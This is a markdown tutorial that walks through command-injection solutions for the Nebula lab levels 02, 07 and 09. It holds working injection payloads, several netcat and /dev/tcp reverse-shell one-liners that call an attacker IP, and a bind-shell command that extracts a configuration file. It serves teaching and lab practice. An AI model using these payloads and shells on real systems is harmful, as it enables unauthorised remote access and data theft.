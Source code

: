 ## Classic Command Injection

**Command Execute Functions in C**
```
system()
execl()
execlp()
execv()
execvp()
execle()
execve()
popen()
etc...
```
**Nebula Level02** [ [Description](https://exploit-exercises.lains.space/nebula/level02/) ]

Vulnerble Code
```
char *buffer;
buffer = NULL;
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
printf("about to call system(\"%s\")\n", buffer); 
system(buffer);
```
Getting environment variable "USER" and about to execute this string

Export USER with random value and Running Program
```
level02@nebula:~$ export USER=aaaa
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo aaaa is cool")
aaaa is cool
```
Running two Command in Linux ( Many ways )
```
level02@nebula:~$ id;whoami
uid=1003(level02) gid=1003(level02) groups=1003(level02)
level02
```
Command Injection and Solving Level02
```
/bin/echo [INPUT] is cool
/bin/echo Break;getflag;echo is cool 
level02@nebula:~$ unset USER
level02@nebula:~$ export USER="Break;getflag;echo"
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo Break;getflag;echo is cool")
Break
You have successfully executed getflag on a target account
is cool
```
**Nebula Level07** [ [Description](https://exploit-exercises.lains.space/nebula/level07/) ]

Vulnerable Code
```
#!/usr/bin/perl 
use CGI qw{param}; 
print "Content-type: text/html\n\n"; 
sub ping { 
	$host = $_[0]; print("<html><head><title>Ping results</title></head><body><pre>"); 
	@output = `ping -c 3 $host 2>&1`; foreach $line (@output) {
		print "$line"; } 
	print("</pre></body></html>"); 
		} 
		# check if Host set. if not, display normal page, etc 
ping(param("Host"));
```
Backticks is alternative way to execute command in PERL [ [Ref](https://www.perlmonks.org/?node_id=380670) ]
Running Port
```
tcp6       0      0 :::7007                 :::*                    LISTEN
```
HTTP Requests from My Windows Host
```
$ curl http://192.168.43.229:7007/index.cgi?Host=192.168.43.234
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    57    0    57    0     0      9      0 --:--:--  0:00:06 --:--:--     0

```
Command Injection
```
ping -c 3 $host 2>&1
ping -c 3 [ INPUT ] 2>&1
ping -c 3 ; getflag 2>&1  #No Result

#Final Payload
127.0.0.1%3bgetflag
```
Result
```
thinb@DESKTOP-U4MGHBB ~
$ curl http://192.168.43.229:7007/index.cgi?Host=127.0.0.1%3Bgetflag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   504    0   504    0     0    252      0 --:--:--  0:00:02 --:--:--   246
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.023 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.021 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.030 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.021/0.024/0.030/0.006 ms
You have successfully executed getflag on a target account
</pre></body></html>

```
**Netcat TCP Reverse Shell** ( Blind Command Injection )
Listenting on My Computer
```
nc -lvp1234
```
Giving a Shell with e
```
nc -e /bin/bash 192.168.43.234 1234
```
Without e
```
mknod /tmp/backpipe p/bin/sh 0</tmp/backpipe | nc **attacker_ip** 4444 1>/tmp/backpipe
```
Using Dev
```
127.0.0.1; bash -i >& /dev/tcp/192.168.43.234/1234 0>&1;
```
Don't need for Nebula 007

**Data Exfiltration with Bind Shell** ( if we need to read flag )
```
nc –l –p {port}  <  {file/to/extract}
127.0.0.1; nc.traditional -l -p 1234 < thttpd.conf
```
Payload
```
curl http://192.168.43.229:7007/index.cgi?Host=127.0.0.1%3B%20nc.traditional%20-l%20-p%201234%20%3C%20thttpd.conf
```
Connect
```
C:\Users\thinb>nc 192.168.43.229 1234
# /etc/thttpd/thttpd.conf: thttpd configuration file

# This file is for thttpd processes created by /etc/init.d/thttpd.
# Commentary is based closely on the thttpd(8) 2.25b manpage, by Jef Poskanzer.

# Specifies an alternate port number to listen on.
port=7007

# Specifies a directory to chdir() to at startup. This is merely a convenience -
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07
```
**Nebula Level09** [ [Description](https://exploit-exercises.lains.space/nebula/level09/) ]  

Vulnerable Code PHP
```
$contents  =  preg_replace("/(\[email (.*)\])/e",  "spam(\"\\2\")",  $contents);
```
I already explained in LOL Free Web Security Class. [ [Watch Here](https://www.youtube.com/watch?v=2hphqcUpfcE) ]

**Other Command Injection**
Python Sandbox Escape ( [Read More](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/) )
```
os.system () 
os.popen () 
ommands.getstatusoutput() 
commands.getoutput() 
commands.getstatus() 
subprocess.call(command, shell=True) 
subprocess.Popen(command, shell=True) 
pty.spawn()
```
**Python Pickle Command Injection** ( DIY )
Level 17 in Nebula -> Do it yourself


**References**  
[https://blog.securityinnovation.com/blog/2011/06/how-to-test-for-command-injection.html](https://blog.securityinnovation.com/blog/2011/06/how-to-test-for-command-injection.html)
[http://man7.org/linux/man-pages/man3/asprintf.3.html](http://man7.org/linux/man-pages/man3/asprintf.3.html)
[https://www.perlmonks.org/?node_id=380670](https://www.perlmonks.org/?node_id=380670)
[https://medium.com/@shadowslayerqwerty/creating-a-netcat-reverse-shell-without-e-89b45134de99](https://medium.com/@shadowslayerqwerty/creating-a-netcat-reverse-shell-without-e-89b45134de99)
[https://www.contextis.com/us/blog/data-exfiltration-via-blind-os-command-injection](https://www.contextis.com/us/blog/data-exfiltration-via-blind-os-command-injection)
